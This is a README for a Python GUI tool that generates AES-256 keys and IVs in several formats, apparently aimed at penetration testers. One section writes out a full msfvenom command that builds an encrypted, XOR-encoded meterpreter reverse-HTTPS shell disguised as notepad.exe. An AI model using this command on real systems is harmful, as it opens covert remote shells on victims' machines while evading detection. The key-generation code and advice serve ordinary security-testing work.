 # AES-256 Key & IV Generator
A professional Python application for generating cryptographically secure AES-256 encryption keys and initialization vectors (IVs) with multiple output formats suitable for various applications including penetration testing tools like msfvenom.

![Python 3.6 Badge](https://img.shields.io/badge/python-3.6%252B-blue)
![MIT-License Badge](https://img.shields.io/badge/license-MIT-green)

## Features
Cryptographically Secure Generation: Uses os.urandom() for secure random number generation

## Multiple Output Formats:

Hexadecimal (ideal for msfvenom)

Base64 encoding

Escape sequences (for code implementation)

Raw bytes representation

## User-Friendly GUI: 

Intuitive interface built with Tkinter

Clipboard Integration: One-click copying of generated values

Cross-Platform Compatibility: Works on Windows, macOS, and Linux

## Installation
Clone or download this repository

Install required dependencies:

bash```
pip install -r requirements.txt```

## Usage

Run the application:

bash```
python aes_key_generator.py```

Generate new values:

Click "Generate New" to create a fresh AES-256 key and IV

Select output format:

Choose from Hex, Base64, Escape Sequences, or Raw Bytes

Copy values:

Use the "Copy Key", "Copy IV", or "Copy Both" buttons to transfer values to clipboard

## Requirements

The application requires the following dependencies (automatically installed via requirements.txt):

Python 3.6+

Tkinter (usually included with Python standard library)

## For msfvenom Usage

When using with msfvenom, select the **Hex format** and use the values with the appropriate flags:

bash```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT \
--encryption aes256 --encryption_key YOUR_KEY --encryption_iv YOUR_IV --encoder x64/xor_dynamic --iterations 5 --arch x64 --platform windows -f exe -o notepad.exe --timeout 65```

## Security Considerations

Always generate new keys and IVs for each encryption operation

Never reuse the same key/IV combination

Store keys securely using appropriate secret management solutions

This tool uses cryptographically secure random generation (os.urandom)

## Project Structure
text
aes-key-generator/
├── aes_key_generator.py  # Main application file
├── requirements.txt      # Python dependencies
└── README.md            # This file

## License

This project is licensed under the **MIT License** - see the LICENSE file for details.

## Disclaimer
This tool is intended for educational and legitimate security testing purposes only. Always ensure you have proper authorization before using encryption tools on any system.


